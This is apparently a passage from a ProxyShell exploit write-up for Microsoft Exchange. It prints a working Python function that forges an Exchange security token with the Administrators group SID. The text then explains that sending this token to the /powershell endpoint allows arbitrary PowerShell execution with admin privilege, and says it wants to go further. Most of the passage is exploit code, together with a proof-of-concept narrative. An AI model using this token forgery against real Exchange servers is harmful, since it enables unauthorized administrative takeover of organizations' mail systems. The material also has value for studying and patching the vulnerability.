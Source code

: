 ```python
```

I copy the `gen_token` function from [this amazing write up](https://y4y.space/2021/08/12/my-steps-of-reproducing-proxyshell/) to help me build the poc script/

```python
def gen_token(email: str, sid: str):
    # Credits: https://y4y.space/2021/08/12/my-steps-of-reproducing-proxyshell/
    print("[-] Generating token")
    version = 0
    ttype = 'Windows'
    compressed = 0
    auth_type = 'Kerberos'
    raw_token = b''
    gsid = 'S-1-5-32-544'

    version_data = b'V' + (1).to_bytes(1, 'little') + \
        (version).to_bytes(1, 'little')
    type_data = b'T' + (len(ttype)).to_bytes(1, 'little') + ttype.encode()
    compress_data = b'C' + (compressed).to_bytes(1, 'little')
    auth_data = b'A' + (len(auth_type)).to_bytes(1,
                                                 'little') + auth_type.encode()
    login_data = b'L' + (len(email)).to_bytes(1, 'little') + email.encode()
    user_data = b'U' + (len(sid)).to_bytes(1, 'little') + sid.encode()
    group_data = b'G' + struct.pack('<II', 1, 7) + \
        (len(gsid)).to_bytes(1, 'little') + gsid.encode()
    ext_data = b'E' + struct.pack('>I', 0)

    raw_token += version_data
    raw_token += type_data
    raw_token += compress_data
    raw_token += auth_data
    raw_token += login_data
    raw_token += user_data
    raw_token += group_data
    raw_token += ext_data

    data = base64.b64encode(raw_token).decode()

    print(f"[+] Token generated: {data}")
    return data

```

Use the token to request to `/powershell` endpoint, if the server return with 200 status code, that means the token is accepted

<img width="1086" alt="image" src="https://user-images.githubusercontent.com/37280106/129684825-739bcc15-0c50-4bf9-a0b6-d1716c272970.png">

So now, we can execute arbitrary Powershell code on the exchange server with Admin priviledge. But the Powershell Cmdlet module come with a very limited list of commands that we can execute. We want more than that !!!
